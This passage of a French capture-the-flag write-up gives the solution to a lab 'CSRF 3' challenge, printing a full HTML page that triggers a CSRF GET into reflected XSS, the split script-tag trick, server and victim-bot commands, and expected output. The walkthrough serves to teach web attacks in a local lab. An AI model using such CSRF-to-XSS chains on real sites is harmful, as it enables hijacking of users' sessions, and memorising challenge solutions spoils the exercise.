5.  Connexion avec le compte hacker et extraction du flag sur l'accueil
    authentifié.

[⬆ Sommaire](#sommaire)

## ✅ Solution CSRF 3

Le principe est simplement :

hacker.localhost

│

│ CSRF GET

▼

challenge.localhost/ephemeral?msg=\<script\>alert("PWNED")\</script\>

│

▼

XSS exécutée sur challenge.localhost

│

▼

alert("PWNED")

│

▼

🏆 flag

Crée ton index.html :

cat \<\< 'EOF' \> index.html

\<!DOCTYPE html\>

\<html\>

\<body\>

\<script\>

let script = "\<scr" + "ipt\>alert('PWNED')\</scr" + "ipt\>";

let url = "http://challenge.localhost/ephemeral?msg=" +
encodeURIComponent(script);

window.location = url;

\</script\>

\</body\>

\</html\>

EOF

Le détail important est :

"\<scr" + "ipt\>"

et :

"\</scr" + "ipt\>"

Le hint officiel explique précisément pourquoi : si tu écris directement
\</script\> **à l'intérieur du \<script\> de ton index.html**, le
navigateur peut considérer ce \</script\> comme la fermeture de ton
propre script.

[⬆ Sommaire](#sommaire)

## 🚀 Ensuite

Lance le serveur :

/challenge/server &

python3 -m http.server 1337 --bind 0.0.0.0 &

Puis :

/challenge/victim "http://hacker.localhost:1337/"

Tu devrais voir quelque chose comme :

Visiting http://challenge.localhost:80/

Logging in as admin...

Logged in!

Visiting the attacker's website...

et surtout :

Success!

ou directement la validation du challenge.

